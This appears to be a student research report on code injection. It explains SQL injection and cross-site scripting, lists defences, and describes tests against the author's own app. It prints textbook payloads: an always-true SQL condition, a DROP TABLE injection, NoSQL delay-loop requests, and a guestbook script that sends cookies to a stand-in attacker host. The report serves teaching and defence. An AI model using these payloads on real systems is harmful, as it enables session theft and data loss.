


<!-- omit in toc -->
# Security Risk: Code Injection

Written by: Jeffrey E.G. Derksen  
For course: S-DB-IPS3  
Class: S3-DB01  
Date: 18 June 2022  
Version: 1  

<!-- omit in toc -->
## Table of Contents
- [1. Introduction and main research question](#1-introduction-and-main-research-question)
- [2. Sub-questions](#2-sub-questions)
- [3. What is code injection](#3-what-is-code-injection)
- [4. What different kinds of code injection exist](#4-what-different-kinds-of-code-injection-exist)
- [5. What are some examples of code injection](#5-what-are-some-examples-of-code-injection)
  - [5.1. Example of SQL injection](#51-example-of-sql-injection)
  - [5.2. Example of cross-site scripting](#52-example-of-cross-site-scripting)
- [6. What measures can you take to prevent code injection?](#6-what-measures-can-you-take-to-prevent-code-injection)
  - [6.1. Input validation](#61-input-validation)
  - [6.2. Parameterized queries](#62-parameterized-queries)
  - [6.3. Use object relational mapping (ORM)](#63-use-object-relational-mapping-orm)
  - [6.4. Output escaping](#64-output-escaping)
- [7. Is my application vulnerable to a code injection attack?](#7-is-my-application-vulnerable-to-a-code-injection-attack)
  - [7.1. Static code analysis](#71-static-code-analysis)
  - [7.2. API requests](#72-api-requests)
  - [7.3. Injecting a script](#73-injecting-a-script)
- [8. Conclusion](#8-conclusion)
- [9. Sources](#9-sources)

## 1. Introduction and main research question

When you develop and publish a web application, you are exposing it to a potentially harmful environment. There are those who prowl the internet looking for security vulnerabilities to exploit and cause damage or steal sensitive data. Naturally, when developing a web application you would want to make sure that your application contains as few as possible security vulnerabilities—preferably none at all! You are after all responsible for maintaining a safe environment for your users.

The Open Web Application Security Project (OWASP) is a nonprofit foundation that works to improve the security of software, and they have created a [top 10 list of the most critical security risks to web applications](https://owasp.org/Top10/). Each of the items on the list is definitely worth looking into, but I have chosen to delve into the topic of *code injection*. This drew my attention because I have heard about it before, but I don't know enough about it to properly secure my application against it. What I do know is that it can present a serious security risk. For this reason, during the course of this research report, I will seek to find answers to the following **main research question:**

> What is code injection and how can you secure you web application against it?

During this research project I have made use of the [DOT framework](https://ictresearchmethods.nl/The_DOT_Framework) to guide my process and to assist me with acquiring the right information and drawing conclusions from it. I have made use of the following methods:
- Library: best good and bad practices, design pattern research, literature study
- Lab: security test

## 2. Sub-questions

In order to answer the main research question, I have broken the problem down into smaller sub-questions:

- What is code injection?
- What different kinds of code injection exist?
- What are some examples of code injection?
- What measures can you take to prevent code injection?
- Is my application vulnerable to a code injection attack?

I will try to find answers for each of these questions in the following sections of this report.

## 3. What is code injection

Code injection is the act of deliberately introducing code into a vulnerable computer system and changing the program's execution, making it do and/or return something that it was not designed to do. This is usually done by injecting code that the attacker knows will be misinterpreted by the system, and can be done through systems designed for user input (such as login forms or search fields) and by manipulating (internal) API calls, to name a couple.

Code injection techniques are popular methods for attackers to gain unauthorized access to systems, to steal or surreptitiously modify data, or for privilege escalation.

## 4. What different kinds of code injection exist

There are many different kinds of code injection. Some of the most well-known kinds are:
- SQL injection
- NoSQL injection
- ORM injection
- Command injection
- Server-side template injection
- Cross-site scripting

An interesting thing to note is that the first three items on this list—SQL, NoSQL, and ORM injection—all target database systems. These systems may contain sensitive and valuable information, and as a result become prime targets for attackers. By tricking a database system with 

Cross-site scripting and server-side template injection also share some similarities. They both attempt to execute malicious code through an injected script

## 5. What are some examples of code injection

In order to better understand how code injection might be accomplished, and what the consequences might be, I have found several examples of code injection using some common methods. SQL injection and cross-site scripting can both be used to attempt stealing sensitive user data such as usernames, passwords, and access tokens.

### 5.1. Example of SQL injection

SQL injection can be used to compromise the original intent of a database query. Instead of entering a single parameter as the developer intends the user to do, an attacker might add comparisons that always evaluate to true or SQL statements to get more or different results, or to modify the content of the database in some way. In the example below we see how a query is constructed based on an *id* parameter entered by the user.

```
String query = "SELECT \* FROM accounts WHERE custID='" + request.getParameter("id") + "'";
```

The attacker might then send a request to the server that looks like this:

```
 http://example.com/app/accountView?id=' or '1'='1
```

Instead of a valid customer ID, it contains a comparison that will always evaluate to true. This in essence negates the WHERE constraint in the original query, which results in the database returning **all** the entries in the designated table, instead of just one. In addition, the attacker might also introduce new SQL statements that modify the content of the database. This can even lead to data loss, as demonstrated in the example below.

```
 http://example.com/app/accountView?id=1; DROP TABLE accounts; 
```

The attacker appends a command to drop the accounts table to the id parameter. This will cause the database to delete the entire accounts table, erasing all the data within.

### 5.2. Example of cross-site scripting

Let's take a look at an example of cross-site scripting. Some websites feature a guestbook where visitors can leave a message that is then displayed on the website afterwards. Depending on how the guestbook script processes and displays this message, an attacker may make use of vulnerabilities within this feature to inject a script into the website by placing a message such as the one below.

```
Don't mind the following code. <script>window.location="https://some_attacker/evilcgi/cookie.cgi?steal=" + escape(document.cookie)</script>
```

When the browser of another visitor loads the content on this webpage, it will now execute the script that was injected in the guestbook message and deliver a cookie containing sensitive user data such as an authentication token to the attacker's website. The attacker can then use this token to log in onto the website posing as the user whose data was stolen and carry out all kinds of harmful actions.

## 6. What measures can you take to prevent code injection?

Now that we know what code injection is, and have seen a few examples of it, it would be a good idea to look at different measures that can be taken to reduce to chance of an attacker performing a successful code injection attack on your application.

### 6.1. Input validation

One method of preventing code injection is by implementing input validation. This can be done on both the client and the server side, with the server side generally considered the safer option. With input validation, the input that is received from the user is tested against a list of allowed characters and/or a list of allowed names for tables, columns, or sort order. If a character or name is processed that is not allowed, the operation gets aborted and the user will receive an error message. This method is quite effective at preventing code injection, but it is not be suitable for every use case. For example, some applications might require the input of special characters that could also be used to perform code injection.

### 6.2. Parameterized queries

When constructing queries for interacting with your database system, make use of parameterized queries to minimalize the chance of a successful injection attack. When using parameterized queries, there is a clear distinction between code and data. You define the structure of the query first, and then pass in the parameters to the query later. Trying to inject a statement through a parameter would not work, because the system would only interpret the input as data and not as code.

### 6.3. Use object relational mapping (ORM)

The safest and arguably the most convenient way of interacting with a database system is through object relational mapping frameworks. These systems are designed for standardized procedures and incorporate many security features to mitigate the possibility of a code injection attack. They are also frequently updated when new security vulnerabilities are discovered and by upgrading the packages in your application your security is up to date with minimal effort on your part.

### 6.4. Output escaping

This method is particularly effective against cross-site scripting. When implementing output escaping—or as it is sometimes called, sanitation—the system replaces certain characters in the output. For example, a `<` would be converted to `&lt;`. This way, the browser does not recognize script tags or other injected code and does not attempt to execute it, instead displaying it as simple text.

## 7. Is my application vulnerable to a code injection attack?

There are several ways of evaluating your application to determine its susceptibility to code injection attacks, but the ones that I've chosen to use are static code analysis, performing a number of API requests containing code, and trying to inject a script into one of the descriptions in my application.

### 7.1. Static code analysis

I have chosen to use [SonarCloud](https://sonarcloud.io) as the tool for performing static code analysis on my application. SonarCloud checks for many different security vulnerabilities, including many different forms of code injection. I have let both my front and back end be analyzed by SonarCloud and it reports no known vulnerabilities for any component of my application.

  
*SonarCloud security overview.*

### 7.2. API requests

In order to test my back-end API's resistance to code injection attacks, I wrote a couple of requests containing code designed to trick the database into executing a function that would lock the database in a loop for 10 seconds. It did not appear to have any effect. Every response that I received back from the server carried either a *400 Bad Request* or a *404 Not Found* status code, and I could not detect any malfunctioning behavior or abnormal CPU usage because of a running loop.

```
# Using the GetAllCats endpoint:
.../cats?sort=function() {var date=new Date(); do{curDate = new Date();}while(curDate-date<10000); }

# Using the GetCatById endpoint:
.../cats/function() {var date=new Date(); do{curDate = new Date();}while(curDate-date<10000); }

# Using the findByOwner endpoint:
.../cats/search/findByOwner?owner=function() {var date=new Date(); do{curDate = new Date();}while(curDate-date<10000); }
```

Based on these responses and the lack of any observable abnormal behavior, I would say that I was not able to trigger any remote code execution on the database system through my API endpoints. While these are of course only a few shallow tests, and therefore I cannot guarantee that my application is completely impervious to this kind of attack, it shows that at the very least it is not susceptible to these basic kinds of attacks.

### 7.3. Injecting a script

Finally, I have tried to inject a script into the description of one of the entities that the front end application loads from the database. The script, when executed, should make the browser display an alert window with the specified text. However, when I load the page with the altered description, the browser does not display an alert window. This indicates that the browser does not interpret the script element as valid code and does not execute it. As such, it would seem that my application is not vulnerable to cross-site scripting. 

  
*Script element in the description of a cat from the CollectiCats application.*

## 8. Conclusion

Guided by the sub-questions that I have formulated at the start of this research project and by making use of several methods from the DOT framework, I have gathered more information about the topic of code injection, found some examples, and discovered measures that you can take to strengthen your application against it. And so I can finally attempt to provide an answer to the main question formulated for this research project: "What is code injection and how can you secure you web application against it?"

Code injection is the act of deliberately introducing code into a vulnerable computer system and changing the program's execution, making it do and/or return something that it was not designed to do. There are many different kinds of code injection, and each requires its own specialized form of defense. However there are some general measures you can take to reduce vulnerabilities to such an attack, such as: input validation, parameterized queries, the use of ORM tools, and output escaping. Integrating static code analysis into your application will also help discover any vulnerabilities, and many software packages will even suggest ways of fixing these if any are found.

I have also run a few experiments on my own application to assess its resistance to these kinds of attacks. It withstood these well and I did not manage to trigger any malicious code execution on either my front end or my back end. But more than anything else, I trust SonarCloud's evaluation of my application's security risks. They are specialized in detecting security risks and did not find any in my application.

## 9. Sources

- [Canvas: Secure Web Development](https://fhict.instructure.com/courses/12078/pages/secure-web-development?module_item_id=749948)
- [OWASP: A03:2021 – Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [OWASP: Code Injection](https://owasp.org/www-community/attacks/Code_Injection)
- [OWASP: Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
- [OWASP: Injection Prevention Cheat Sheet in Java](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_in_Java_Cheat_Sheet.html)
- [OWASP: Testing for NoSQL Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection.html)
- [W3Schools: SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)
- [Wikipedia: Code Injection](https://en.wikipedia.org/wiki/Code_injection)
